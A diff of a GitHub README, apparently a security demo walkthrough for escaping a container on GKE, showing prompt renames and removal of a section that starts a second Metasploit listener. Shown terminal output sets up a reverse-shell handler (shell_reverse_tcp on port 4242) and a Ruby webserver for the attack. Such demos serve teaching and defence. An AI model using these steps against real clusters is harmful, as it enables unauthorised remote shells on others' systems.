

Before and after one commit to mondoohq/samples, a Markdown page: gke/README.md, the part around the change printed below. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/gke/README.md
+++ b/gke/README.md
@@ -296,7 +296,7 @@ root@lunalectric-attacker-vm-ua3k:~#
 Once you have ssh'd on to the host you will find a `/root/container-escape` directory with the following files:
 
 ```bash
-root@attacker:~# cd /root/container-escape/
+root@lunalectric-attacker-vm-ua3k:~# cd /root/container-escape/
 root@attacker:~/container-escape# ls -la
 total 1108
 drwxr-xr-x 2 root root    4096 Aug 15 18:14 .
@@ -313,7 +313,7 @@ drwx------ 5 root root    4096 Aug 15 18:14 ..
 In the first terminal, start `msfconsole` listening on port `4242` for the container:
 
 ```bash
-root@attacker:~# cd /root/container-escape/
+root@lunalectric-attacker-vm-ua3k:~# cd /root/container-escape/
 
 root@attacker:~/container-escape# ./msfconsole1
 [*] Using configured payload generic/shell_reverse_tcp
@@ -323,23 +323,6 @@ lport => 4242
 [*] Started reverse TCP handler on 0.0.0.0:4242
 ```
 
-### Start the host listener
-
-In the second terminal, start `msfconsole` listening on port `4243` for the host:
-
-```bash
-azureuser@attacker:~$ sudo -i
-
-root@attacker:~# cd /root/container-escape/
-
-root@attacker:~/container-escape# ./msfconsole2
-[*] Using configured payload generic/shell_reverse_tcp
-payload => linux/x86/shell/reverse_tcp
-lhost => 0.0.0.0
-lport => 4243
-[*] Started reverse TCP handler on 0.0.0.0:4243
-```
-
 ### Start Ruby webserver
 
 In the third terminal, start webserver with Ruby:
@@ -347,7 +330,7 @@ In the third terminal, start webserver with Ruby:
 ```bash
 azureuser@attacker:~$ sudo -i
 
-root@attacker:~# cd /root/container-escape/
+root@lunalectric-attacker-vm-ua3k:~# cd /root/container-escape/
 
 root@attacker:~/container-escape# ./start_ruby_webserver
 [2022-08-15 18:28:35] INFO  WEBrick 1.4.2
````
Also changed, not shown: other parts of gke/README.md (+0 -57 lines).
